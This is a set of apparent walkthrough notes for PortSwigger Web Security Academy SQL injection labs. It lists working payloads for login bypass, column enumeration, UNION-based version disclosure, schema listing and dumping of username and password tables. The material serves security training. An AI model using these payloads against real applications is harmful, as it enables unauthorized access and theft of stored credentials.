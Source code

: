 ###### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
URL: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Endpoint: category

Steps:
```
1. Click on any filter item.
2. Insert the following payload in the url: category=' OR 1=1--
```


###### Lab: SQL injection vulnerability allowing login bypass
URL: https://portswigger.net/web-security/sql-injection/lab-login-bypass

Endpoint: username

Steps:
```
1. Go to login section.
2. Insert the following in the username section: administrator' OR 1=1--
```


###### Lab: SQL injection attack, querying the database type and version on Oracle
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal Server Error
4. Now we know that there are 2 items in the query.
5. Check the type of items in the query using:
5a. category=Gifts'+UNION+SELECT+1,1+FROM+dual--
	Response: error
5b. category=Gifts'+UNION+SELECT+'a',1+FROM+dual--
	Response: error
5c. category=Gifts'+UNION+SELECT+'a','a'+FROM+dual--
	Response: error
6.  category='+UNION+SELECT+banner,'b'+FROM+v$version--
	Response: Database version information
```

Note: We need to specify database name in case of oracle server thus we are using dual.
Ref: https://www.techonthenet.com/oracle/questions/version.php


###### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category=Gifts'+UNION+SELECT+@@VERSION,'a'--+
   Response: Database version information
```

Note: Database name is not necessary in when using UNION SELECT on non-oracle MYSQL.
Ref: https://www.sqlshack.com/how-to-find-sql-server-version/


###### Lab: SQL injection attack, listing the database contents on non-Oracle databases
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category='+UNION+SELECT+table_name,'a'+FROM+information_schema.tables--+
   Response: Databases names
6.
category=' UNION SELECT COLUMN_NAME,'a' FROM information_schema.columns WHERE table_name='users_uapnzk'--
Response: All Columns in the database users_eyeiho
7. category=' UNION+SELECT+username_rytsgw,password_ndebvk+FROM+users_uapnzk--
   Response: List of Usernames and passwords
```


Ref: https://dba.stackexchange.com/questions/93919/mysql-list-databases-with-tables
Ref: https://stackoverflow.com/questions/1580450/how-do-i-list-all-the-columns-in-a-table


###### Lab: SQL injection attack, listing the database contents on Oracle
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category=Gifts'+UNION+SELECT+'a','a'+FROM+dual+--+
6. category='+UNION+SELECT+TABLE_NAME,'a'+FROM+ALL_TABLES--
   Response: All the Tables
7.
category='+UNION+SELECT+column_name,'a'+FROM+all_tab_columns+WHERE+table_name='USERS_GOQFTH'--+
Response: All the Columns in the table
8. category='+UNION+SELECT+USERNAME_AGRSKD,PASSWORD_RRZEUC+FROM+USERS_GOQFTH--+
   Response: All the data in the table
```

Ref: https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D



###### Lab: SQL injection UNION attack, determining the number of columns returned by the query
URL: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Returns products
	3d. category=Gifts'+ORDER+BY+4--
	Response: Internal server error
Alternative:
4. 
	4a. category=Pets'+UNION+SELECT+NULL--+
		Response: Error
	4b. category=Pets'+UNION+SELECT+NULL,NULL--+
		Response: Error
	4c. category=Pets'+UNION+SELECT+NULL,NULL,NULL--+
		Response: Returns Products
```


###### Lab: SQL injection UNION attack, finding a column containing text
URL: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Returns products
	3d. category=Gifts'+ORDER+BY+4--
	Response: Internal server error
Alternative:
4. 
	4a. category=Pets'+UNION+SELECT+NULL--+
		Response: Error
	4b. category=Pets'+UNION+SELECT+NULL,NULL--+
		Response: Error
	4c. category=Pets'+UNION+SELECT+NULL,NULL,NULL--+
		Response: Returns Products
5. Checking the type of each one
	5a. category=Pets'+UNION+SELECT+'a',NULL,NULL--+
		Response: Error
	5b. category=Pets'+UNION+SELECT+NULL,'a',NULL--+
		Response: Response
```